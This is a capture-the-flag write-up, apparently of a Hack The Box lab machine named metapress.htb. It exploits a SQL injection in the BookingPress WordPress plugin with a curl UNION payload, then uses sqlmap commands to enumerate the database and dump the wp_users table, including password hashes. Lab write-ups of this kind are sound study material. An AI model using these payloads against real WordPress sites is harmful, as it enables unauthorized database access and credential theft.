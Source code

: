 # 2. user.txt

## 2.1. Exploiting WordPress

### 2.1.1. BookingPress SQLi

The first WordPress exploit is the SQL injection found in the plugin BookingPress.

Feel free to read the detailed proof of concept on [WPScan](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) for this vulnerability. From this PoC we can construct the following payload

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=070a17f10c&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080
```
by adding in the `-x http://127.0.0.1:8080` we are able to capture this request using BurpSuite Intercept. From BurpSuite we are able to save the request to a file `req.txt` so that it can be used with `sqlmap`

#### 2.1.1.1. SQLmap
First we'll use SQLmap to enumerate the databases: `sqlmap -r req.txt -p total_service --dbs`
```
available databases [2]:
[*] blog
[*] information_schema
```
next we'll use it to find the tables in those databases: `sqlmap -r req.txt -p total_service -D blog --tables`
```
Database: blog
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| ...                                  |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+
```
and finally the information in those tables: `sqlmap -r req.txt -p total_service -D blog -T wp_users --dump`
```
Database: blog
Table: wp_users
[2 entries]
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url             | user_pass                          | user_email            | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb   | admin      | 0           | admin        | admin         | 2022-06-23 17:58:28 | <blank>             |
| 2  | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager    | 0           | manager      | manager       | 2022-06-23 18:07:55 | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```
Now we've got the hashes for the `admin` and `manager` passwords, so let's crack these.

